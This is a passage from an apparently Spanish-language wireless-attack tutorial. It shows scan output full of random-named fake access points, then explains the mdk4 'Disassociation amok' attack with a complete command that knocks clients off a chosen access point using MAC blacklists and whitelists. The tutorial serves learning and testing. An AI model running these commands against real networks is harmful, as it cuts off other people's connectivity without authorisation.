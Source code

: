 ```bash
 71:67:61:D4:20:5C  -88        2        0    0   7   11   WPA2 CCMP   PSK  ���˂͡.5�o#.�P�2*o�t...�xo]��
 E9:AC:2C:4E:96:C0  -88        2        0    0   7   11   WEP  WEP         ��.�������.C���rΨ�+Ɲ��I!���
 67:5C:72:4B:6D:1C  -88        2        0    0   7   54   WPA  TKIP   PSK  ˢ��=�����hKk�l=?�1P��.f,����
 E3:B6:D1:EC:FC:B1  -88        2        0    0   7   11   WPA2 CCMP   PSK  j��������.Y�.���X�a���.Jw�.c��
 3B:B5:57:97:71:19  -88        2        0    0   7   11   WPA  TKIP   PSK  �h.����W!0<��إ��Ǚz@�,L.ᣚS�
 86:59:F9:40:24:B4  -88        2        0    0   7   54   WPA  TKIP   PSK  �ڸN�v�.-.�bG?wJR׷��z.WsW|(
 4A:93:62:D5:EA:BC  -88        2        0    0   7   54   WEP  WEP         ��o[=A��9���9�DN�<4.��hu4=_�
 46:FF:76:0A:DE:78  -88        2        0    0   7   11   WPA  TKIP   PSK  �ޞ@�����~n����Q�.�4.̄I��S�r
 64:05:55:D6:D6:4A  -88        2        0    0   7   54   WEP  WEP         ��&�m.�*X�.�����J�y�.?CiE�?.�
 5A:47:69:D7:7E:B3  -88        2        0    0   7   11   WEP  WEP         zG�ԕ������$�'���.5͇.1�_x46��
 9F:39:8E:97:3F:4D  -88        2        0    0   7   54   WPA  TKIP   PSK  ��x�.k�S�..-y                
 50:BF:3C:57:0D:84  -88        2        0    0   7   54   OPN              w9����(.BX�.:$�EE���.�QR����.
 1E:CB:32:1C:89:8A  -88        2        0    0   7   54   WEP  WEP         ��.�ʁ�.����.�-0D�֨7`Zs&���0
 EC:8A:06:7A:A8:F1  -88        2        0    0   7   11   WPA  TKIP   PSK  ��                            
 D5:6F:07:CD:26:8F  -88        2        0    0   7   54   WEP  WEP         I������..J&!�w�]�aR��`Ii6�q.� 
 FF:16:8D:86:59:BE  -88        2        0    0   7   11   WPA2 CCMP   PSK  �׉��N�G�'DN��.���yj7D�CC���.�
 42:10:3F:61:7F:29  -88        2        0    0   7   54   WPA  TKIP   PSK  ��bY��U.)�.b痻������;�i~���1�
 AC:50:9D:0F:FD:C1  -88        2        0    0   7   11   OPN              �m�m�.��&�gf��~2��.9��+A.�P.�
 BF:6E:AE:5D:C6:8C  -88        2        0    0   7   11   WEP  WEP         zZ�.o��N�0y#���)�\�q.(/f�.Dc�
 F7:88:F9:5A:BD:7B  -88        2        0    0   7   11   WPA  TKIP   PSK  h��z.�t�.FB��c���<�b-.�%��t`
 CF:65:B8:1F:AC:69  -88        2        0    0   7   11   WPA2 CCMP   PSK  .M:.)�`tY?�..��x.y�1{��3�B�
```

### Disassociation amok mode attack

Este ataque no difiere significativamente de un ataque de desautenticación simple, salvo que en esta variante utilizaremos una **blacklist** o una **whitelist** con la herramienta **mdk4**.

```bash
[root@arch ~]# sudo mdk4 wlan0mon d -c 7 -B 15:E7:95:73:D4:90 -b blacklist.txt -w whitelist.txt
```
En este comando, primero especificamos la interfaz en modo monitor. El parámetro `-d` indica el tipo de ataque, en este caso **Disassociation amok Mode**. El parámetro `-B` define el BSSID del AP objetivo, y el parámetro `-c` indica el canal. Finalmente, `-b` señala el archivo con las direcciones MAC de los clientes, permitiendo el uso de una **blacklist**.
